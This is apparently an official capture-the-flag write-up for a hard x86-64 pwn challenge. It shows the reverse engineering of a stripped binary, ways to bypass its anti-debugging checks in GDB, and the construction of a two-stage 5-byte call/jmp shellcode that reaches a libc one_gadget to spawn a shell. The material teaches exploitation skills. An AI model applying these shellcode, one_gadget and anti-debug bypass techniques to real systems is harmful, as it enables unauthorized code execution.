

	    <font size="6">Words From the Past</font>

9<sup>th</sup> May 2026

Prepared By: w3th4nds

Challenge Author(s): w3th4nds

Difficulty: <font color=red>Hard</font>

Classification: Official

  


# Synopsis

Words From the Past is a **Hard** difficulty pwn challenge built around a **5-byte shellcode** primitive with deliberately adversarial register constraints. The player must perform a **two-stage** `call/jmp rel32` payload—first calling back into `main` to trigger a second RWX `mmap`, then jumping from that newly allocated page into a libc `one_gadget`. The difficulty lies in the tight encoding constraints (no `0x00` or `0x0A`), the adversarial register state that satisfies exactly **one** gadget, the 16-byte stack alignment requirement, anti-debugging measures, instruction-type enforcement, and a minimal brute-force factor.

# Description

Rogat lost a blood-price dispute his clan should have won, and the rival warband that beat them didn't settle it themselves. They hired Rovan Kest's Iron Vultures to hold him and asked a ransom Sythra Crow-Eater's order was never built to pay, because paying it would mean her hostages have a price again, the exact thing she spent years teaching the southern clans to stop believing. She can't storm the camp without breaking her own rules in front of every clan watching to see if they still hold. She can't leave him either. So she does what she's never done before and asks someone outside her clans to make the problem disappear quietly.

Rin gets inside the Iron Vultures' camp before Rogat gets sold to whoever bids highest for his silence. He isn't chained the way a giant should be. The rig holding him is old work, something built by a border people who don't have a name anymore, the kind of craft Garran Voss grew up around on the winter keep before Crownspire ever took him in. He taught her the shape of it once, half as history, half as a joke about a dead trade nobody would ever need again. She needs every piece of that joke to be true. Get Rogat out clean, and Sythra owes her people something no coin ever bought from her before: trust.

## Skills Required

- Intermediate shellcoding and x86-64 instruction encoding.
- Understanding of `mmap` hint behavior and `MAP_FIXED`.
- **Deep familiarity with `one_gadget` constraint analysis** — not just running the tool, but understanding which constraints are satisfied by the target's runtime register and stack state.
- Awareness of x86-64 **stack alignment** requirements for library functions.
- Ability to bypass or account for basic anti-debugging measures (`TracerPid`, timing checks, `LD_PRELOAD`).

## Skills Learned

- Two-stage shellcoding with `call/jmp rel32` under adversarial conditions.
- Using `MAP_FIXED` to place a second RWX page at a known offset from libc with minimal brute-force.
- Using `one_gadget` with careful constraint analysis when the binary does **not** hand you NULL registers on a silver platter.
- How a `call` instruction can be used to preserve 16-byte stack alignment when re-entering a function.
- Bypassing anti-debug checks in automated exploits.

# Challenge Design

To make the exploit deterministic, the challenge uses `MAP_FIXED` on the **second** `mmap` to place the stage-2 RWX page below libc. However, the exact offset is randomized within a small bounded range:

```c
unsigned long libc_base = find_libc_base();
unsigned long offset = 0x1000000ULL + ((getpid() & 0x7ULL) * 0x1000ULL);
hint = (void *)(libc_base - offset);
flags |= MAP_FIXED;
```

This yields exactly **8 possible locations** for `page2`, requiring a minimal brute-force of at most 8 attempts to find the correct displacement to the `one_gadget`.

The challenge also enforces the following constraints:
1. **5-byte payload limit**: `read(0, page, 5)` reads exactly 5 bytes. This permits exactly one x86-64 instruction.
2. **Encoding filter**: `0x00` and `0x0A` are rejected by `check_encoding()`.
3. **Software breakpoint detection**: `0xCC` scans prevent trivial debugging.
4. **Instruction-type enforcement**: Stage 1 must be `call rel32` (`0xE8`), and stage 2 must be `jmp rel32` (`0xE9`). Any other opcode is rejected.
5. **Anti-debugging**: Multiple layers of debugger detection:
   - `TracerPid` check in `/proc/self/status`
   - `rdtsc`-based timing anomaly detection (two stages)
   - `LD_PRELOAD` / `LD_AUDIT` environment variable checks
6. **Adversarial register state**: Before jumping to the payload, the binary zeros `rbx` and `rcx`, sets `rax = 1`, and sets `r12 = 0xdead`. This satisfies exactly one `one_gadget` (the `posix_spawn` at `0x583f3` requiring `rbx == NULL` and `rcx == NULL`), but breaks the more commonly used `execve` gadgets that need `rax == NULL` or `r12 == NULL`.
7. **16-byte stack alignment**: Inline assembly ensures `rsp` is 16-byte aligned before jumping to the payload, which is required for the `posix_spawn` gadget's `movaps` instruction.
8. **Single fork**: The binary forks once so the parent can `waitpid` and keep `stdin/stdout` open when run under `socat`. On re-entry (stage 1 calling back to `main`) no second fork occurs.
9. **Symbol table is stripped** (`-s`), making static analysis marginally harder.

# Enumeration

First of all, we start with a `checksec`:

```console
checksec 
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'$ORIGIN/glibc'
Stripped:   Yes
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |
| **Strip**  | **Yes**  | Removes symbol table, hindering static analysis |

The binary is fully position-independent, but the exploit never needs to leak its base because the vulnerability gives us an arbitrary 5-byte RWX page.

The interface of the program:



# Reverse Engineering & Debugging Guide

## Step 1 — Initial Triage

### `file` and `checksec`

```console
$ file challenge/words_from_the_past
challenge/words_from_the_past: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, stripped
```

Key observations:
- **Stripped**: No symbols. Function names must be recovered manually.
- **PIE**: Base address is randomized per execution.
- **Bundled glibc**: The interpreter and `RUNPATH` point to `./glibc/`, so we know the exact libc version.

### `strings`

```console
$ strings -t x challenge/words_from_the_past | grep -E "Garran|Preload|Debugger|Timing|Breakpoint|Invalid|Encoding|Failed|libc base"
   201c  Preload detected!
   204d  Debugger detected!
   2060  Timing anomaly detected!
   2079  Encoding violation detected!
   2096  Breakpoint detected!
   20ab  Invalid instruction!
   20d0  Failed to open maps!
   20f4  libc base not found!
   2fe0  [Garran Voss] Rin.. You know what to do... Precise moves, keep it fast and lethal..
```

These strings tell us exactly what protections exist:
- Anti-debug (`TracerPid`, timing).
- Encoding filter.
- Breakpoint scan.
- Instruction validation.
- A parser for `/proc/self/maps`.

### Running the binary

```console
$ ./challenge/words_from_the_past
<banner prints>
[Garran Voss] Rin.. You know what to do... Precise moves, keep it fast and lethal..

<program waits for input>
```

If you type 5 characters and press Enter, the program either exits silently or prints the banner again and waits. This hints at a re-entry mechanism.

## Step 2 — Dynamic Reconnaissance with `strace`

This is the fastest way to map the binary's behavior. Because the binary forks, we use `strace -f`. We also filter to reduce noise.

```console
$ echo -n 'AAAAA' | strace -f -e trace=fork,wait4,mmap,read,openat,getpid,prctl,write,exit_group ./challenge/words_from_the_past
...
strace: Process 28120 attached
[pid 28119] wait4(28120,  <unfinished ...>
[pid 28120] prctl(PR_SET_DUMPABLE, SUID_DUMP_DISABLE) = 0
[pid 28120] mmap(0x..., 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x...
[pid 28120] read(0, 0x..., 5)  = 5
[pid 28120] openat(AT_FDCWD, "/proc/self/status", O_RDONLY) = 3
[pid 28120] read(3, ...) = ...
[pid 28120] write(1, "Debugger detected!\n", 18) = 18
[pid 28120] exit_group(1)               = ?
```

Even `strace` triggers the `TracerPid` check (because `strace` itself uses `ptrace`). This is expected and actually confirms the anti-debug logic. The trace still reveals critical facts before the exit:

1. **Fork once**: Parent waits, child continues.
2. **`prctl(PR_SET_DUMPABLE, 0)`**: Disables core dumps.
3. **`mmap(..., RWX)`**: An executable page is mapped.
4. **`read(0, page, 5)`**: Exactly 5 bytes are read into that page.
5. **`/proc/self/status` is opened**: The `TracerPid` check.

To get a trace of the *second* stage (when we send the winning payload), we must bypass the anti-debug first (see Step 5).

## Step 3 — Locating `main()` and key functions

Since the binary is stripped, `main` is not labeled. We recover it via string cross-references.

### Method A: `objdump` + manual RIP-relative math

Find the virtual address of the `.rodata` section and the string offset:

```console
$ readelf -S challenge/words_from_the_past | grep -E "\.rodata|\.text"
  [15] .text             PROGBITS         0000000000001190  00001190
  [17] .rodata           PROGBITS         0000000000002000  00002000
```

The "Garran Voss" string is at file offset `0x2fe0`, which corresponds to virtual address `base + 0x2fe0` (because `.rodata` file offset and vaddr align).

Now search `.text` for `lea rdi, [rip+...]` instructions that reference this string. On x86-64, `lea rdi, [rip+rel32]` is encoded as `48 8d 3d XX XX XX XX` (7 bytes). We scan for these sequences and compute the target:

```console
$ python3 -c "
import struct
with open('challenge/words_from_the_past','rb') as f:
    data = f.read()
off = 0
while True:
    off = data.find(b'\x48\x8d\x3d', off)
    if off == -1: break
    rel = struct.unpack('<i', data[off+3:off+7])[0]
    target = off + 7 + rel
    print(f'Found lea at file offset {off:x} -> target {target:x}')
    off += 1
"
Found lea at file offset 11a8 -> target 16d5
Found lea at file offset 11c0 -> target 5010
Found lea at file offset 11f0 -> target 5010
```

The first result (`file offset 0x11a8 -> target 0x16d5`) is the `lea` inside `__libc_start_main` that loads the address of `main`. Therefore, **`main` is at virtual offset `0x16d5`** (relative to the binary base).

### Method B: Using a decompiler (Ghidra / Binary Ninja)

1. Import the binary and run default auto-analysis.
2. Search strings for "Garran".
3. Cross-reference the string to find the caller.
4. Rename the caller to `main` (offset `0x16d5`).

## Step 4 — Disassembling `main` and identifying the check functions

With `main` at `0x16d5`, we dump its body:

```console
$ objdump -d -M intel --start-address=0x16d5 --stop-address=0x18c0 challenge/words_from_the_past
```

The output (stripped labels, but with our annotations) looks like this:

```asm
00000000000016d5 <.text+0x545>:
    16d5:   55                      push   rbp
    16d6:   48 89 e5                mov    rbp,rsp
    16d9:   41 54                   push   r12
    16db:   53                      push   rbx
    16dc:   48 83 ec 30             sub    rsp,0x30
    ...
    16ea:   e8 71 f9 ff ff          call   1060 <puts@plt>          ; prints banner
    ...
    1721:   e8 3a fa ff ff          call   1160 <fork@plt>          ; fork()
    ...
    175c:   e8 7f f9 ff ff          call   10e0 <prctl@plt>         ; prctl(PR_SET_DUMPABLE, 0)
    ...
    1772:   lea    rax,[rip+...]    ; stage 0: hint = main + 0x10000
    ...
    1793:   e8 06 fe ff ff          call   159e                     ; find_libc_base()
    179c:   e8 cf f8 ff ff          call   1070 <getpid@plt>
    17a3:   83 e0 07                and    eax,0x7
    17a6:   48 05 00 10 00 00       add    rax,0x1000
    17ac:   48 c1 e0 0c             shl    rax,0xc                  ; offset = 0x1000000 + (pid&7)*0x1000
    ...
    17f4:   e8 a7 f8 ff ff          call   10a0 <mmap@plt>          ; mmap page
    ...
    182e:   e8 8d f8 ff ff          call   10c0 <read@plt>          ; read(0, page, 5)
    ...
    1846:   e8 4a fa ff ff          call   1295                     ; check_debug()
    184b:   48 8b 45 e8             mov    rax,QWORD PTR [rbp-0x18]
    184f:   48 89 c7                mov    rdi,rax
    1852:   e8 5a fc ff ff          call   14b1                     ; check_encoding()
    1857:   48 8b 45 e8             mov    rax,QWORD PTR [rbp-0x18]
    185b:   48 89 c7                mov    rdi,rax
    185e:   e8 b2 fc ff ff          call   1515                     ; check_breakpoints()
    1863:   0f b6 55 c3             movzx  edx,BYTE PTR [rbp-0x3d]
    1867:   48 8b 45 e8             mov    rax,QWORD PTR [rbp-0x18]
    186b:   89 d6                   mov    esi,edx
    186d:   48 89 c7                mov    rdi,rax
    1870:   e8 f0 fc ff ff          call   1565                     ; check_instruction()
    1875:   e8 cb fb ff ff          call   1445                     ; check_timing_final()
    ...
    18b7:   ff e2                   jmp    rdx                      ; jump to payload
```

From this disassembly we can label five critical internal functions:

| Address | Inferred Name | Evidence |
|---------|---------------|----------|
| `0x1295` | `check_debug` | Calls `getenv("LD_PRELOAD")`, `fopen("/proc/self/status")`, `rdtsc` |
| `0x14b1` | `check_encoding` | 5-iteration loop comparing bytes against `0x00` and `0x0A` |
| `0x1515` | `check_breakpoints` | 5-iteration loop comparing bytes against `0xCC` |
| `0x1565` | `check_instruction` | Compares `p[0]` against an `expected` argument |
| `0x1445` | `check_timing_final` | Two `rdtsc` calls with a tight threshold |
| `0x159e` | `find_libc_base` | Opens `/proc/self/maps`, searches for `"libc.so.6"` and `"r--p"` |

### Inside `check_debug` (`0x1295`)

```console
$ objdump -d -M intel --start-address=0x1295 --stop-address=0x1340 challenge/words_from_the_past
```

Key assembly:
```asm
    12b9:   call   1030 <getenv@plt>        ; getenv("LD_PRELOAD")
    12cd:   call   1030 <getenv@plt>        ; getenv("LD_AUDIT")
    12e1:   call   1060 <puts@plt>          ; "Preload detected!"
    12eb:   call   1150 <exit@plt>
    ...
    1304:   call   1120 <fopen@plt>         ; fopen("/proc/self/status","r")
    1339:   call   1040 <strncmp@plt>       ; strncmp(line, "TracerPid:", 10)
    1350:   call   1140 <atoi@plt>          ; atoi(...)
    ...
    127d:   rdtsc
    ...
    127d:   rdtsc                           ; second rdtsc
    ...
    12eb:   call   1150 <exit@plt>          ; "Debugger detected!"
```

### Inside `check_encoding` (`0x14b1`)

```asm
    14d6:   test   al,al                    ; check == 0x00
    14d8:   je     14ee
    14ea:   cmp    al,0xa                   ; check == 0x0A
    14ec:   jne    1507
    14f8:   call   1060 <puts@plt>          ; "Encoding violation detected!"
    1502:   call   1150 <exit@plt>
```

### Inside `check_breakpoints` (`0x1515`)

```asm
    1515:   push   rbp
    ...
    ; 5-iteration loop
    ; cmp al, 0xcc
    ; je puts("Breakpoint detected!") -> exit
```

### Inside `check_instruction` (`0x1565`)

```asm
    157a:   movzx  eax,BYTE PTR [rax]       ; load p[0]
    157d:   cmp    BYTE PTR [rbp-0xc],al    ; compare with expected argument
    1580:   je     159b                     ; ok
    158c:   call   1060 <puts@plt>          ; "Invalid instruction!"
    1596:   call   1150 <exit@plt>
```

The `expected` argument is `0xE8` on the first call and `0xE9` on the second.

### Inside `check_timing_final` (`0x1445`)

```asm
    144d:   call   1279                     ; rdtsc helper
    ...
    1473:   cmp    DWORD PTR [rbp-0x14],0x270f   ; loop 10000 times
    ...
    147c:   call   1279                     ; rdtsc helper
    148d:   cmp    rax,0xbebc200            ; threshold = 200000000
    1493:   jbe    14ae                     ; pass
    149f:   call   1060 <puts@plt>          ; "Timing anomaly detected!"
    14a9:   call   1150 <exit@plt>
```

## Step 5 — Debugging the stripped binary with GDB

Three obstacles exist:
1. **Fork**: The parent `waitpid`s and exits. The child executes the vulnerable path.
2. **TracerPid**: Non-zero under GDB, causing immediate exit.
3. **rdtsc timing**: Single-stepping triggers the timing checks.

### Following the fork

```gdb
$ gdb ./challenge/words_from_the_past
(gdb) set follow-fork-mode child
(gdb) set detach-on-fork off
(gdb) run
```

Without `set follow-fork-mode child`, GDB traces the parent process, which simply waits and exits.

### Bypassing `TracerPid`

Because `check_debug` opens `/proc/self/status` and exits if `TracerPid != 0`, we must bypass it. The cleanest runtime bypass is to **skip the function entirely** by setting RIP to the instruction after the `call check_debug`.

From the `main` disassembly above, `call check_debug` is at `0x1846`. The next instruction is at `0x184b`.

```gdb
(gdb) break *0x182e       ; break on read@plt
(gdb) run
# send 5 bytes, e.g. 'AAAAA'
(gdb) finish
(gdb) set $rip = 0x184b   ; skip check_debug, check_encoding, etc. entirely
```

Wait, that skips all checks. If you want to debug *through* the checks but just bypass `TracerPid`, you can instead break on the `exit` call inside `check_debug` and modify the condition:

```gdb
(gdb) break *0x12eb       ; exit call inside check_debug
(gdb) run
# When hit:
(gdb) set $rip = 0x12f0   ; jump over exit to the rest of check_debug
(gdb) continue
```

Or even simpler, break on `exit@plt` and change RIP whenever an anti-debug check fires:

```gdb
(gdb) break exit
(gdb) run
# When "Debugger detected!" path fires and hits exit:
(gdb) bt
#0  exit
#1  0x... in check_debug
(gdb) set $rip = $rip + 5   ; NO, this is inside exit. Better:
(gdb) return                 ; force return from exit? Not possible easily.
```

The most reliable method for iterative exploit development is to **NOP-patch `check_debug` and `check_timing_final` in memory** after the binary maps them but before they run. However, since they are in `.text` (read-only but not encrypted), they are writable under GDB:

```gdb
(gdb) set {unsigned char}0x1295 = 0xc3   ; replace first push with 'ret' -> function returns immediately
(gdb) set {unsigned char}0x1445 = 0xc3   ; same for check_timing_final
```

This turns both functions into no-ops. You can find their addresses from the `call` instructions inside `main`.

### Debugging the mmap addresses

Once past the checks:

```gdb
(gdb) break *mmap@plt
(gdb) run
# First hit (stage 1):
(gdb) x/gx $rdi            ; hint = main + 0x10000
(gdb) continue
# Second hit (stage 2, only reached after sending stage-1 payload):
(gdb) x/gx $rdi            ; libc_base - offset
```

### Inspecting the adversarial register state

Set a breakpoint on the final `jmp rdx` at `0x18b7`:

```gdb
(gdb) break *0x18b7
(gdb) continue
(gdb) info registers rax rbx rcx r12 rsp
rax            0x1                 1
rbx            0x0                 0
rcx            0x0                 0
r12            0xdead              57005
rsp            0x7ffc...0          0x7ffc...0
```

This confirms the exact register constraints required for one_gadget selection.

## Step 6 — Hunting the one_gadget with the bundled libc

```console
$ one_gadget challenge/glibc/libc.so.6
0x583ec posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  ...
0x583f3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  ...
0xef4ce execve("/bin/sh", rbp-0x50, r12)
constraints:
  ...
0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  ...
```

Cross-referencing with the GDB register dump above:
- `rax = 1` → eliminates `0x583ec` and `0xef52b`.
- `r12 = 0xdead` (non-null) → eliminates `0xef4ce`.
- `rbx = 0`, `rcx = 0`, `rsp` 16-byte aligned → satisfies `0x583f3`.

Only `0x583f3` survives.

### Disassembly ⛏️

Loading the binary into a decompiler, `main()` is concise:

```c
int main (void) {
  puts(banner);
  fflush(stdout);

  /* Single fork on first entry only. */
  static int forked = 0;
  if (!forked) {
    forked = 1;
    pid_t pid = fork();
    if (pid != 0) {
      waitpid(pid, NULL, 0);
      _exit(0);
    }
  }

  /* First entry  : map an RWX page near main (stage-1 landing pad).
   * Second entry : map an RWX page at a randomized offset below libc. */
  static int stage = 0;
  void *hint;
  int flags = MAP_PRIVATE | MAP_ANONYMOUS;
  unsigned char expected_insn;
  if (stage == 0) {
    hint = (void *)((unsigned long)main + 0x10000);
    stage = 1;
    expected_insn = 0xE8;  /* call rel32 */
  } else {
    unsigned long libc_base = find_libc_base();
    unsigned long offset = 0x1000000ULL + ((getpid() & 0x7ULL) * 0x1000ULL);
    hint = (void *)(libc_base - offset);
    flags |= MAP_FIXED;
    stage = 2;
    expected_insn = 0xE9;  /* jmp rel32 */
  }

  void *page = mmap(hint, 0x1000,
                    PROT_READ | PROT_WRITE | PROT_EXEC,
                    flags, -1, 0);

  int n = read(0, page, 5);
  if (n < 5) exit(1);

  check_debug();
  check_encoding((unsigned char *)page);
  check_breakpoints((unsigned char *)page);
  check_instruction((unsigned char *)page, expected_insn);
  check_timing_final();

  puts("[Garran Voss] Rin.. You know what to do... Precise moves, keep it fast and lethal..\n");

  __asm__ __volatile__(
    "movq $0, -0x78(%%rbp)\n\t"
    "xor %%ebx, %%ebx\n\t"
    "xor %%ecx, %%ecx\n\t"
    "mov $0xdead, %%r12d\n\t"
    "mov $0x1, %%eax\n\t"
    "and $~0xF, %%rsp\n\t"
    "jmp *%%rdx"
    :
    : "d" (page)
    : "rax", "rbx", "rcx", "rsi", "r12", "memory"
  );

  /* NOTREACHED */
  return 0;
}
```

The program:
1. **Forks once** on the first entry. The parent `waitpid`s and exits; the child continues.
2. **First entry**: `mmap`s an RWX page at `main + 0x10000`.
3. **Second entry**: `mmap`s an RWX page at `libc_base - offset` using `MAP_FIXED`, where `offset` is one of 8 values derived from `getpid()`.
4. Reads **exactly 5 bytes** from stdin into that page.
5. Runs anti-debug checks (`TracerPid`, `rdtsc` timing, `LD_PRELOAD`/`LD_AUDIT`).
6. Verifies there are no forbidden bytes (`0x00`, `0x0A`) and no software breakpoints (`0xCC`).
7. Enforces instruction type: stage 1 must be `call rel32` (`0xE8`), stage 2 must be `jmp rel32` (`0xE9`).
8. Runs a final tight `rdtsc` timing check.
9. Writes `0` to `[rbp-0x78]`, zeros `rbx` and `rcx`, sets `r12 = 0xdead`, sets `rax = 1`, aligns `rsp` to 16 bytes via `and $~0xF, %rsp`, and jumps to the payload via `jmp *rdx`.

The constructor also disables stdio buffering and sets a 300-second alarm:

```c
__attribute__ ((constructor))
void setup (void) {
  setvbuf(stdin,  NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(300);
}
```

Because only 5 bytes are available, a traditional `execve("/bin/sh")` shellcode is impossible. We need a **stager**: a 5-byte instruction that branches to a larger payload. The natural choices on x86-64 are relative 32-bit `call` or `jmp` (`E8 cd` / `E9 cd`, 5 bytes total).

### Assembly Breakdown

Disassembling `main` in GDB shows the adversarial register setup:

```asm
00000000000016d5 <main>:
    16d5:   55                      push   rbp
    16d6:   48 89 e5                mov    rbp, rsp
    16d9:   41 54                   push   r12
    16db:   53                      push   rbx
    16dc:   48 83 ec 20             sub    rsp, 0x20
    ...
    1898:   48 8b 55 e8             mov    rdx, qword ptr [rbp - 0x18] # rdx = page
    189c:   48 c7 45 88 00 00 00 00 mov    qword ptr [rbp - 0x78], 0   # [rbp-0x78] = NULL
    18a4:   31 db                   xor    ebx, ebx                    # rbx = 0
    18a6:   31 c9                   xor    ecx, ecx                    # rcx = 0
    18a8:   41 bc ad de 00 00       mov    r12d, 0xdead                # r12 = 0xdead
    18ae:   b8 01 00 00 00          mov    eax, 0x1                    # rax = 1
    18b3:   48 83 e4 f0             and    rsp, 0xfffffffffffffff0     # align rsp to 16 bytes
    18b7:   ff e2                   jmp    *rdx                        # execute 5-byte payload
```

Key observations from the assembly:
- `ebx` and `ecx` are **zeroed**. This satisfies the `rbx == NULL` and `rcx == NULL` constraints for the `posix_spawn` one_gadget at `0x583f3`.
- `r12d` is set to `0xdead`, breaking any gadget that requires `r12 == NULL`.
- `eax` is set to `1`, breaking any gadget that requires `rax == NULL`.
- `[rbp - 0x78]` is zeroed. This satisfies the stack/envp constraint for the `posix_spawn` gadget.
- `rsp` is explicitly aligned to 16 bytes via `and $~0xF, %rsp` before jumping to the payload. This is critical because the `posix_spawn` gadget uses `movaps` which requires `rsp+0x50` to be 16-byte aligned.
- The payload is executed via `jmp *%rdx`, meaning **no return address is pushed** by the binary itself.

# Debugging 🔬

## Step 1 --- First `call rel32` back to `main`

The kernel maps the first page at `page1 = (main + 0x10000) & ~0xfff`. We need a `call` from `page1` back to the entry of `main`. The relative displacement is:

```
rel = target - (page1 + 5)
    = main - (((main + 0x10000) & ~0xfff) + 5)
    = (main & 0xfff) - 0x10000 - 5
```

Given `main` offset is `0x16d5`:

```
rel = 0x6d5 - 0x10000 - 5 = -0xF930
```

In Python:

```python
rel = -0x10000 + (main_offset & 0xFFF) - 5  # = -0xF930
first = b"\xe8" + p32(rel, signed=True)       # b'\xe8\xd0\x06\xff\xff'
```

**Why is this offset constant despite ASLR?** Because the binary is PIE, both `main` and the binary base shift by the same random slide. The kernel honors the `mmap` hint when it falls within an unmapped region near the binary, so `page1` is always at `binary_base + ((main_offset + 0x10000) & ~0xfff)`. The difference between `page1` and `main` depends only on their relative positions within the binary, which are fixed at compile time.

**Why `call` instead of `jmp`?** The binary jumps to the payload via `jmp *rdx`, which does **not** push a return address. When we `call` back to `main`, the `call` pushes a return address onto the stack. On the second entry, `main` executes normally and eventually hits `jmp *rdx` again. At that point, the stack has an extra 8 bytes (the return address pushed by our `call`), which shifts `rsp` down by 8. This is critical because the surviving `posix_spawn` gadget at `0x583f3` requires `rsp & 0xf == 0` (16-byte alignment). Without the `call`, the stack would be misaligned and the gadget would crash.

We can verify this in GDB:

```gdb
pwndbg> b *main
pwndbg> r
pwndbg> vmmap
    0x555555554000     0x555555555000 r--p     1000 0      words_from_the_past
    0x555555555000     0x555555556000 r-xp     1000 1000   words_from_the_past
    0x555555556000     0x555555557000 r--p     1000 2000   words_from_the_past
    0x555555557000     0x555555558000 r--p     1000 3000   words_from_the_past
    0x555555558000     0x555555559000 rw-p     1000 4000   words_from_the_past
    0x555555565000     0x555555566000 rwxp     1000 0      [anon]    <-- page1
```

`page1` is at `0x555555565000`. The binary base is `0x555555554000`. `main` is at `0x555555554000 + 0x16d5 = 0x5555555556d5`. The call from `0x555555565000` to `0x5555555556d5` has displacement `-0xF930`, exactly as calculated.

Sending this 5-byte payload causes execution to call back to `main`. The program runs again, reaching the second `mmap` call. Because `stage == 1`, the binary now maps a second RWX page at `libc_base - offset` using `MAP_FIXED`, where `offset` is one of 8 values derived from `getpid()`.

## Step 2 --- Bounded random placement of page2 with MAP_FIXED

On the second entry, `main` reads `/proc/self/maps` to find the libc base and then calls:

```c
unsigned long libc_base = find_libc_base();
unsigned long offset = 0x1000000ULL + ((getpid() & 0x7ULL) * 0x1000ULL);
mmap(libc_base - offset, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC,
     MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
```

Because `MAP_FIXED` is used, the kernel **must** place the page at exactly `libc_base - offset`. The offset is derived from `getpid() & 0x7`, yielding exactly **8 possible locations** spaced `0x1000` bytes apart:

| `getpid() & 0x7` | `offset`     | `page2` address           |
| :---:            | :---         | :---                      |
| 0                | `0x1000000`  | `libc_base - 0x1000000`   |
| 1                | `0x1001000`  | `libc_base - 0x1001000`   |
| 2                | `0x1002000`  | `libc_base - 0x1002000`   |
| ...              | ...          | ...                       |
| 7                | `0x1007000`  | `libc_base - 0x1007000`   |

This introduces a minimal brute-force factor: the player must try at most **8** different displacements to hit the correct `one_gadget`. Because `getpid()` is deterministic per execution, reconnecting with a different guess is sufficient.

## Step 3 --- Hunting the correct `one_gadget`

Running `one_gadget` on the bundled `libc.so.6` reveals four candidates:

```console
$ one_gadget glibc/libc.so.6
0x583ec posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, rip+0x17301e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x583f3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x17301e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xef4ce execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  rbx == NULL || {"/bin/sh", rbx, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

The binary's inline assembly sets up the following state before jumping to our payload:
- `rax = 1` (non-zero)
- `rbx = 0` (zeroed)
- `rcx = 0` (zeroed)
- `r12 = 0xdead` (non-zero)
- `[rbp-0x78] = 0` (zeroed on the stack)

Let's evaluate each gadget:

| Gadget | Constraint check | Verdict |
| :---: | :--- | :---: |
| `0x583ec` | `rax = 1` → `{"sh", 1, ...}` is not a valid argv | ❌ |
| `0x583f3` | `rcx = 0` ✓; `rbx = 0` ✓; `rsp & 0xf == 0` ✓ (preserved by `call`) | ✅ |
| `0xef4ce` | `rbx = 0` ✓; `r12 = 0xdead` → `[0xdead]` dereferences invalid memory → **crash** | ❌ |
| `0xef52b` | `rax = 1` → `{"/bin/sh", 1, NULL}` is not a valid argv | ❌ |

**Only `0x583f3` works.** The player must recognize that the commonly used `execve` gadgets at `0xef4ce` and `0xef52b` both fail: `0xef4ce` crashes because `r12` is non-null, and `0xef52b` fails because `rax` is non-zero. The surviving gadget is the `posix_spawn` at `0x583f3`, which accepts `rcx == NULL` and `rbx == NULL`.

The second jump displacement depends on which of the 8 offsets was chosen. For offset `0x1000000`:

```
rel = (libc_base + og) - (page2 + 5)
    = og + (libc_base - page2) - 5
    = og + 0x1000000 - 5
    = 0x583f3 + 0x1000000 - 5
    = 0x10583EE
```

